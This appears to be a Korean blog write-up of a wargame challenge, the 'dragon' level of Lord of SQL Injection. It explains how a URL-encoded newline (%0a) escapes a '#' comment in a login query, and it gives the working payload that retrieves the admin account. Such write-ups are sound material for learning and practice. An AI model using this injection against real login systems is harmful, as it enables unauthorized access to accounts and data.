 ```yaml
---
title: LOS - 20번 dragon
category: Lord of SQL Injection
---
```


# [20] dragon

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdVPRAK%2FbtrnP7hVFzh%2FQKtIyj2XkRhpCJhBS1Kuv1%2Fimg.png">

## 풀이
주어진 쿼리문을 보겠다.

```php
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
```

첫번째 조건절 뒤에 #을 넣어서 뒷부분을 날려버리고 있다.

 

스터디 초반에 로그인 로직 5가지 유형을 개발할 때, 조건절이 개행 처리된 쿼리에는 주석을 주입해도 원하는대로 처리되지 않음을 경험했었다.

이 점에 착안해서 개행 문자를 이용해주면 될 것 같다.

 

즉, 쿼리문을 다음과 같이 변조할 생각이다.


```php
$query = "select id from prob_dragon where id='guest'# and pw='
	    and pw='' or id='admin'";
```

위 쿼리문은 다음 쿼리문과 동일하게 동작한다.

```php
$query = "select id from prob_dragon where (id='guest' and pw='') or id='admin'";
```

따라서 정상적으로 admin 계정을 fetch 해오게 된다.

 

개행 문자인 \n 은 url encoding을 거쳐 %0a로 입력해준다.

 

입력할 답은, `%0a and pw='' or id='admin` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcVwX0y%2FbtrnPk3bf4W%2FN4kYfakdGJ6KpZu0buH111%2Fimg.png">